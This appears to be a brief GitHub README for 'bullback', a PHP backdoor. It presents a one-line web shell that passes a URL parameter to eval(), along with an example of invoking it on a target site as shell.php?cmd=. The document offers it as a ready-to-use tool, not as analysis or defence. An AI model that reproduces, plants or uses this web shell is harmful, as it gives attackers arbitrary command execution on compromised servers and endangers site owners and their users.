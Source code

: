 bullback
========

It generates an effective rear connection with eval()

```php
<?php eval($_GET["cmd"]); ?>
```

```
Example: Insert target -> http://target.com/shell.php?cmd=
```

There is not any documentation at the moment, but the code is really easy to understand.

-------------

Copyright, 2014 by [José Pino](http://twitter.com/mrjopino)

-------------
